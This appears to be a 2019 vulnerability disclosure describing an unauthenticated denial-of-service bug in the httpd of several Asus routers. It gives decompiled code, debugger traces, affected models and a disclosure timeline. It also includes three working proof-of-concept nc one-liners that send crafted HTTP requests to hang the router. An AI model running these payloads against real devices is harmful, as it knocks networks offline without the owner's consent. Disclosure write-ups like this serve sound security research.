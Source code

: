 # Specially-crafted HTTP packet DoS/DDoS attack on Asus RT-AC86U, RT-AX88U, and many other Asus router
> Aug  3 2019, Altin Thartori, github.com/tin-z

## Vulnerability Details
The vulnerability is a DoS/DDoS, that resides in the httpd services, and so in most of the Asus router that uses cgi-bin interface (not Boa http server).
The vulnerability can be triggered from inside the router network, or by CSRF, and doesn't require authentication.

## POC
```
  #example 1:
  cat <(python -c "print 'get ' + '/Main_Login.asp%00'+'A'*(0x2710-(22+10+0x10)) + ' http/1.1' +'\n' +'User-Agent: ' " ) - | nc 192.168.1.1 80
  #example 2:
  cat <(python -c "print 'get ' + '/Main_Login.asp%00'+'A'*(0x2710-(22+10+0xd)) + ' http/1.1' +'\n' +'Referer: '" ) - | nc 192.168.1.1 80
  #example 3:
  cat <(python -c "print 'get ' + '/Main_Login.asp%00'+'A'*(0x2710-(22+10+0xc)) + ' http/1.1' +'\n' +'Cookie: '" ) - | nc 192.168.1.1 80

```

## Why
We inspected the Asus RT-AC86U firmware, (Version 3.0.0.4.384.45717).
After reversing the binary httpd, we found the function starting at 0x17F54 addresses to be the main interface comunicating with the client.

```
     1	int sub_17F54()
     2	{
     3	  ...
     4	  int req_get_or_post_or_head; // [sp+484h] [bp-2734h]@1
     5	  int canary; // [sp+2B94h] [bp-24h]@1
     6	
     7	  canary = _stack_chk_guard;
     8	  host_name = 0;
     9	  memset(&req_get_or_post_or_head, 0, 0x2710u);
    10	  if ( !fgets((char *)&req_get_or_post_or_head, 0x2710, (FILE *)fd_Socket_clnt) )
    11	  {
    12	    reply_1 = "No request found.";
    13	    reply_2 = "Bad Request";
    14	fail_req_path:
    15	    response_code = 400;
    16	    goto fail_req_path_2;
    17	  }
    18	  req_uri_path = (char *)&req_get_or_post_or_head;
    19	  
    20	  // check valid request head e.g. 'get / HTTP/1.1\n'
    21	  
    22	  ...
    23	
    24	0x1810C:
    25	  while ( fgets(body_req, (char *)&canary - body_req, (FILE *)fd_Socket_clnt)  // [1]
    26	       && strcmp(body_req, "\n")
    27	       && strcmp(body_req, "\r\n") )
    28	  {
    29	
    30	  ...
    31	
    32	0x183B4:
    33	      if ( !strncasecmp(body_req, "User-Agent:", 0xBu) )
    34	      {
    35	        v24 = body_req + 11;
    36	        stringp = v24;
    37	        v25 = strspn(v24, " \t"); //v25=0
    38	        user_agent_client_ptr = &v24[v25];
    39	        stringp = &v24[v25];
    40	        body_req = &v24[v25 + 1] + strlen(&v24[v25]); //  [2]
    41
    42	
```

So this is the execution flow:
- After parsing the uri, and the http version, we reach the line 24, and this is our scenario, before executing fgets:
```
 →    0x18124                  bl     0x14fa4 <fgets@plt>
   ↳     0x14fa4 <fgets@plt+0>    add    r12,  pc,  #0,  12
         0x14fa8 <fgets@plt+4>    add    r12,  r12,  #471040    ; 0x73000
      ────────── arguments (guessed) ────
      fgets@plt (
         $r0 = 0xfffeec6d → 0x00000000 → 0x00000000,
         $r1 = 0x0000000f → 0x0000000f,
         $r2 = 0x000e0be0 → 0xfbad2480 → 0xfbad2480
      )
```

- So now we have the 'body_req' that holds 0xfffeec6d which should now contain "User-agent: \n\0" as string, and so we get into the if path, in line 32
- After executing the line 40, then 'body_req' points to 0xfffeec7b, and so again we reach the loop, in the line 24, and this is our new scenario:
```
 →    0x18124                  bl     0x14fa4 <fgets@plt>
   ↳     0x14fa4 <fgets@plt+0>    add    r12,  pc,  #0,  12
         0x14fa8 <fgets@plt+4>    add    r12,  r12,  #471040    ; 0x73000
      ────────── arguments (guessed) ────
      fgets@plt (
         $r0 = 0xfffeec7b → 0x02720000 → 0x02720000,
         $r1 = 0x00000001 → 0x00000001,
         $r2 = 0x000e0be0 → 0xfbad2480 → 0xfbad2480
      )
```

- So now we have the 'body_req' that holds 0xfffeec7b which should now contains '\n\0', no it's not, because in our scenario the fgets reads one byte, 
  and stops after an EOF or a newline, but if a newline is read, it is stored into the buffer, and then a terminating null byte ('\0') is stored after 
  the last character in the buffer, which in our case is the place where belongs the newline.

- The fgets doesn't return NULL, because it has read at least something, but the problem is that, than we aren't able to update body_req, which still continue
  to points to 0xfffeec7b, and so we are stuck :( even if we disconnect the client


### Other Routers that are affected by the same Logic Bug
- RT-AX88U [Confirmed]
- RT-AC87 [Not Confirmed]
- ROG Rapture GT-AX11000 [Confirmed]
- RT-AC86U [Confirmed]
- RT-AC66U B1 [Not Confirmed]
- ROG Rapture GT-AC5300 [Confirmed]
- .. other Asus router that uses the same logic in httpd


## Timeline
- Aug  3 2019: The vulnerability is reported to Asus security advisory
- Aug  21 2019: Patch released also for RT-AC86U (v.3.0.0.4.384.81039), no CVE, my name added to contribution list ![photo1.jpg](photo1.jpg)
- Aug  29 2019: Patch for RT-AC86U removed from the Asus website, because of many issue with the AiMesh, etc. [More info here](https://www.snbforums.com/threads/asus-rt-ac86u-firmware-version-3-0-0-4-384-81039.58178/)
- ???
